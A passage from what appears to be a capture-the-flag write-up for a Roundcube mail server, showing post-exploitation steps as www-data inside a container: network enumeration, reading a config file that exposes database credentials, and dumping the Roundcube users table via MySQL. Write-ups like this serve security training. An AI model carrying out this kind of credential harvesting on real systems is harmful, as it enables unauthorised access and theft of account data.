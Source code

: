 # Foothold to user
By check the ip address, I found we are in the docker environment.
```
www-data@mail:/var/www/html/roundcube/public_html$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0@if4: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether f2:9e:36:ec:ed:c5 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

Let's enumerate the file system to find something interesting to help us get into other users.

From the `/var/www/html/roundcube/config`, we can get the file `config.inc.php`
```
$config = [];

// Database connection string (DSN) for read+write operations
// Format (compatible with PEAR MDB2): db_provider://user:password@host/database
// Currently supported db_providers: mysql, pgsql, sqlite, mssql, sqlsrv, oracle
// For examples see http://pear.php.net/manual/en/package.database.mdb2.intro-dsn.php
// NOTE: for SQLite use absolute path (Linux): 'sqlite:////full/path/to/sqlite.db?mode=0646'
//       or (Windows): 'sqlite:///C:/full/path/to/sqlite.db'
$config['db_dsnw'] = 'mysql://roundcube:RCDBPass2025@localhost/roundcube';

```
We can get the credit of database  `roundcube:RCDBPass2025`
Let's connect it to check the data in it.
```
mysql -u roundcube -p

use roundcube

Tables_in_roundcube
cache
cache_index
cache_messages
cache_shared
cache_thread
collected_addresses
contactgroupmembers
contactgroups
contacts
dictionary
filestore
identities
responses
searches
session
system
users

select * from users;
user_id username        mail_host       created last_login      failed_login    failed_login_counter    language        preferences
1       jacob   localhost       2025-06-07 13:55:18     2025-06-11 07:52:49     2025-07-14 04:22:25     1       en_US   a:1:{s:11:"client_hash";s:16:"hpLLqLwmqbyihpi7";}
```